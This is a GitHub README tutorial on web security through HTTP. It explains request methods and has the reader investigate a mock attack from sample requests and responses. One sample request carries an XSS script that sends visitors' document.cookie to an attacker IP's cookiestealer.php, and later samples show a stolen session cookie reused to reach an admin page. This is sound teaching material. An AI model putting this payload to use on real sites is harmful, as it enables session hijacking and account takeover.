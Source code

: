 # WebDevSecTutorial
Web Security through HTTP Protocols

## This project is aimed for an understanding of HTTP requests and responses. Managing cookies using Chrome extensions and using Chrome's Developer Tools to audit HTTP request and response headers.

The HTTP protocol is probably the most important aspect when it comes to the internet. All major networks to countless smaller networks all communicate through HTTP. It's important to understand how attackers can leverage HTTP protocols to compromise systems and gather sensitive data.

### Firstly, understanding the Client-Server Model.

Typical client-server communication:
1. The client (a user) communicates with a server in order to request resources/information from it.
2. The server then queries the resources from the internal servers that it is connected to
3. The server sends a response back to the client.

In order for the client and servers to communicate over the web, the HTTP protocol is used. HTTP is Layer 7 of the OSI Model and is used to transfer web pages, static assets, HTML markup files, raw data (Mp4, mp3).

#### HTTP Request Methods

**GET** : Requests data from a server, RETRIEVES

**POST** : Sends data to the specified resource, often it changes or updates the server

**PUT** : Replaces or updates resources with the request payload.

**DELETE** : Deletes the specified resource from the server

**CONNECT** : Establishes a tunnel to the server.

**OPTIONS** : Describes the communication options for the specified resource.

#### Web Attack Activity
The following are examples and explanations of HTTP Repsonse and Requests. 

Presented with a HTTP Response, investigate the HTTP sequences of a web attack that has occurred on your company's server:

##### HTTP Response 1
```
HTTP/1.1 200 OK
Date: Tue, 25 Sep 2018 21:21:20 GMT
Server: Apache/2.2.21 (Unix mod_ssl/2.2.21 OpenSSL/1.0.0k DAV/2 PHP/5.4.3)
WWW-Authenticate: Cookie realm="fakesite"
Allow: OPTIONS, GET, POST, HEAD, PUT
```

The OPTIONS method was used. The attacker was in the reconnaissance phase where they had discovered all availabled HTTP methods that can be requested to the HTTP server. The OPTIONS method is useful for finding out what kind of request methods can be leveraged while attempting to compromise an HTTP server.

##### HTTP Response 2
```
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Cookie realm="fakesite"
        form-action="/login"
        cookie-name=AUTH-COOKIE
Content-Type: text/html

<title>Unauthorized</title>
<form action="/login" method=POST>
<input type=hidden name=referer value="/fakesite/">
<p><label>Username: <input name=user></label>
<p><label>Password: <input name=pwd >type=password></label>
<p><button type=submit>Sign in</button>
<p><a href="/register">Register for an account</>a></form>

```
This HTTP response displays an attempt to log into a login portal with a POST request.

##### HTTP Request 1
```
PUT /XSS.html HTTP/1.1
>User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
>Host: www.fakesite.com/blog
>
><script type="text/javascript">
document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
></script>
```
##### HTTP Response 3
```
HTTP/1.1 201 Created
Date: Mon, 05 May 2014 12:28:53 GMT
Server: Apache/2.2.14 (Win32)
Content-type: text/html
Content-length: 30
Connection: Closed
```
The attacker used the PUT method and uploaded the 'cookiestealer.php' file onto the site. The attacker then performed XSS (Cross-site scripting) to steal cookies of users and send the cookies back to their own server.

##### HTTP Response 4
```
GET https://www.fakesite.com/admin HTTP/1.1
Cookie: $Version="1"; AUTH-COOKIE="sdf354s5c1s8e1s"; $Path="/admin"
```

From HTTP Response 3, the PUT request was a success. Response 4 confirms that the attacker stole a cookie and was able to log into the admin portal using a GET request with stolen cookies set in the header.
